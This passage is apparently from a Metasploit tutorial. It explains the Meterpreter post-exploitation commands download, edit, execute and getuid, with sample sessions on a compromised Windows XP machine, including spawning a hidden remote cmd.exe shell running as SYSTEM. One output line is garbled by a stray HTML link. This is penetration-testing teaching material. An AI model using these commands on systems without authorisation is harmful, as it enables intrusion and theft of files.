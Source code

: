 It is used to download a file from the other computer. The downloaded file is saved in the folder you are in on your local system when you start metasploit.

```bash
meterpreter > download c:\\boot.ini
> downloading: c:\boot.ini -> c:\boot.ini
> downloaded : c:\boot.ini -> c:\b<a href="http://oot.ini/boot.ini">oot.ini/boot.ini</a>
meterpreter >
```

## edit

The `edit` command opens a file on the remote computer in the `vim` editor for editing. For Vim Editor usage, you can visit [Vim](http://www.vim.org/) page.

```bash
meterpreter > ls

Listing: C:\Documents and Settings\Administrator\Desktop
**=================================================================**

Mode Size Type Last modified Name
---- ---- ---- ------------- ----
.
...snip...
.
100666/rw-rw-rw- 0 fil 2012-03-01 13:47:10 -0500 edit.txt

meterpreter > edit edit.txt
```

## execute

The `execute` command allows you to run a command on the other side. If you notice, Meterpreter's own commands are not run. A command is run on the other side's command prompt.

```bash
meterpreter > execute -f cmd.exe -i -H
Process 38320 created.
Channel 1 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## getuid

Displays the user ID of the system on which Meterpreter is running on the other side.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
